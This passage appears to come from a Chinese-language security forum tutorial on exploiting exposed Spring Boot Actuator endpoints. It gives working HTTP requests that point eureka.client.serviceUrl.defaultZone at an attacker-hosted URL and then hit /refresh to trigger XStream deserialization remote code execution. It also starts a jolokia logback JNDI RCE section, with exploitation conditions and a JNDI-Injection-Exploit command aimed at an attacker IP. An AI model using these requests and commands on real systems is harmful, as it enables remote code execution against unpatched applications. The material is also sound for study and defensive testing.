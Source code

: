 ```php
spring 2.x

POST /actuator/refresh
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/xstream"}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-586621bf2d371a1ed8661874fc565c155858f789.png)

3. 访问`/refresh`,触发rce；

```php
spring 1.x

POST /refresh
Content-Type: application/x-www-form-urlencoded
```

```php
spring 2.x

POST /actuator/refresh
Content-Type: application/json
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-1f19fa6cc6402729270031f6a0280570cb3f05bf.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-0654d1327291c125319bcca76d4ae58b04393062.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-ac9188e0c73be10d8e96f6cf5b4e0e3477e7d4e4.png)

### 2.3.4 漏洞原理

通过对`/env`设置`eureka.client.serviceUrl.defaultZone`的值引入外部恶意url，然后通过`/refresh` 刷新配置，解析url内的xstream反序列化出命令执行代码。

2.4 jolokia logback JNDI RCE
----------------------------

### 2.4.1 利用条件

- `/jolokia` 或 `/actuator/jolokia` 接口；
- `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean；
- 可以访问外网；
- JNDI 注入受目标 JDK 版本影响，jdk&lt;6u201/7u191/8u182/11.0.1（LDAP 方式）

### 2.4.2 漏洞复现

1. 开启ldap服务；  
    192.168.88.129是攻击机ip

```php
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc -A 192.168.88.129             
```
